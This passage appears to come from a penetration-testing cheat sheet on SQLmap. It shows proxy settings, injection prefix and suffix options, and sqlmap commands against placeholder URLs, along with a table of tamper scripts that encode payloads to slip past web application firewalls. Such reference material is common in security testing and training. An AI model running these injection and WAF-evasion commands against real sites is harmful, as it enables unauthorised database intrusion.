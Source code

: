 * HTTP Proxy:
    ```ps1
    --proxy="http://[username]:[password]@[proxy_ip]:[proxy_port]"
    --proxy="http://user:pass@127.0.0.1:8080"
    ```
* SOCKS Proxy:
    ```ps1
    --proxy="socks4://[username]:[password]@[proxy_ip]:[proxy_port]"
    --proxy="socks4://user:pass@127.0.0.1:1080"
    ```

* SOCKS5 Proxy:
    ```ps1
    --proxy="socks5://[username]:[password]@[proxy_ip]:[proxy_port]"
    --proxy="socks5://user:pass@127.0.0.1:1080"
    ```


## Injection Tampering

In SQLmap, tampering can help you adjust the injection in specific ways required to bypass web application firewalls (WAFs) or custom sanitization mechanisms. SQLmap provides various options and techniques to tamper with the payloads being used for SQL injection.

### Suffix And Prefix

```powershell
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
```

* `--suffix=SUFFIX`: Injection payload suffix string
* `--prefix=PREFIX`: Injection payload prefix string


### Tamper Scripts

A tamper script  is a script that modifies the SQL injection payloads to evade detection by WAFs or other security mechanisms. SQLmap comes with a variety of pre-built tamper scripts that can be used to automatically adjust payloads

```powershell
sqlmap -u "http://targetwebsite.com/vulnerablepage.php?id=1" --tamper=space2comment
```

| Tamper | Description |
| --- | --- |
|0x2char.py | Replaces each (MySQL) 0x<hex> encoded string with equivalent CONCAT(CHAR(),…) counterpart |
|apostrophemask.py | Replaces apostrophe character with its UTF-8 full width counterpart |
|apostrophenullencode.py | Replaces apostrophe character with its illegal double unicode counterpart|
|appendnullbyte.py | Appends encoded NULL byte character at the end of payload |
|base64encode.py | Base64 all characters in a given payload  |
|between.py | Replaces greater than operator ('>') with 'NOT BETWEEN 0 AND #' |
|bluecoat.py | Replaces space character after SQL statement with a valid random blank character.Afterwards replace character = with LIKE operator  |
|chardoubleencode.py | Double url-encodes all characters in a given payload (not processing already encoded) |
|charencode.py | URL-encodes all characters in a given payload (not processing already encoded) (e.g. SELECT -> %53%45%4C%45%43%54) |
|charunicodeencode.py | Unicode-URL-encodes all characters in a given payload (not processing already encoded) (e.g. SELECT -> %u0053%u0045%u004C%u0045%u0043%u0054) |
|charunicodeescape.py | Unicode-escapes non-encoded characters in a given payload (not processing already encoded) (e.g. SELECT -> \u0053\u0045\u004C\u0045\u0043\u0054) |
|commalesslimit.py | Replaces instances like 'LIMIT M, N' with 'LIMIT N OFFSET M'|
